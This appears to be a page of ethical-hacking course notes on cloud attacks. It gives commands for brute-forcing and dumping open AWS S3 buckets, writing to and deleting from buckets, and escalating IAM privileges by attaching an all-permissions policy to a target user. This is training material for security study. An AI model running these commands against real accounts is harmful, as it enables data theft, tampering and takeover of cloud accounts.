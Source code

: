 # Cloud Computing
> Cloud computing delivers various types of services and applications over the Internet. These services enable users to use software and hardware managed by third parties at remote locations. Some well-known cloud service providers are Google, Amazon, and Microsoft.


verview of Cloud Computing
- Cloud computing refers to on-demand delivery of IT capabilities, in which IT infrastructure and applications are provided to subscribers as metered services over a network. Cloud services are classified into three categories, namely infrastructure-as-a-service (IaaS), platform-as-a-service (PaaS), and software-as-a-service (SaaS), which offer different techniques for developing cloud.

Enumerate S3 Buckets using lazys3
- lazys3 is a Ruby script tool that is used to brute-force AWS S3 buckets using different permutations. This tool obtains the publicly accessible S3 buckets and also allows you to search the S3 buckets of a specific company by entering the company name.
- ` ruby lazys3.rb [Company] `

Enumerate S3 Buckets using S3Scanner
- S3Scanner is a tool that finds the open S3 buckets and dumps their contents. It takes a list of bucket names to check as its input. The S3 buckets that are found are output to a file. The tool also dumps or lists the contents of “open” buckets locally.
- ` python3 ./s3scanner.py sites.txt `
- Dump all open buckets and log both open and closed buckets in found.txt:
  - ` python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt `
- Just log open buckets in the default output file (buckets.txt):
  - ` python3 ./s3scanner.py names.txt `
- Save the file listings of all open buckets to a file:
  - ` python ./s3scanner.py --list names.txt `


S3 buckets are used by customers and end users to store text documents, PDFs, videos, images, etc. To store all these data, the user needs to create a bucket with a unique name.

Listed below are several techniques that can be adopted to identify AWS S3 Buckets:

- Inspecting HTML: Analyze the source code of HTML web pages in the background to find URLs to the target S3 buckets
- Brute-Forcing URL: Use Burp Suite to perform a brute-force attack on the target bucket’s URL to identify its correct URL
- Finding subdomains: Use tools such as Findsubdomains and Robtex to identify subdomains related to the target bucket
- Reverse IP Search: Use search engines such as Bing to perform reverse IP search to identify the domains of the target S3 buckets
- Advanced Google hacking: Use advanced Google search operators such as “inurl” to search for URLs related to the target S3 buckets


Exploit Open S3 Buckets using AWS CLI
- The AWS command line interface (CLI) is a unified tool for managing AWS services. With just one tool to download and configure, you can control multiple AWS services from the command line and automate them through scripts.
- ` aws configure `
  - It will ask for the following details:
    - AWS Access Key ID
    - AWS Secret Access Key
    - Default region name
    - Default output format
- `aws s3 ls s3://[Bucket Name]`
- ` aws s3 mv Hack.txt s3://certifiedhacker1 `
- `  aws s3 rm s3://certifiedhacker1/Hack.txt  `


Overview of Privilege Escalation

- Privileges are security roles assigned to users for using specific programs, features, OSes, functions, files, code, etc. to limit access depending on the type of user. Privilege escalation is required when you want to access system resources that you are not authorized to access. It takes place in two forms: vertical and horizontal.
- Horizontal Privilege Escalation: An unauthorized user tries to access the resources, functions, and other privileges of an authorized user who has similar access permissions
- Vertical Privilege Escalation: An unauthorized user tries to access the resources and functions of a user with higher privileges such as application or site administrators


Escalate IAM User Privileges by Exploiting Misconfigured User Policy
- A policy is an entity that, when attached to an identity or resource, defines its permissions. You can use the AWS Management Console, AWS CLI, or AWS API to create customer-managed policies in IAM. Customer-managed policies are standalone policies that you administer in your AWS account. You can then attach the policies to the identities (users, groups, and roles) in your AWS account. If the user policies are not configured properly, they can be exploited by attackers to gain full administrator access to the target user’s AWS account.

` aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json `
- user-policy.json
```json
{

"Version":"2012-10-17",

"Statement": [
{

    "Effect":"Allow",

    "Action":"*",

    "Resource":"*"

}
]
}
```

- ` aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy `
-  ` aws iam list-attached-user-policies --user-name [Target Username] `
-  `  aws iam list-users `
-  List of S3 buckets: ` aws s3api list-buckets --query "Buckets[].Name" `
-  User Policies: ` aws iam list-user-policies `
-  Role Policies: `aws iam list-role-policies`
-  Group policies: `aws iam list-group-policies`
-  Create user: ` aws iam create-user `



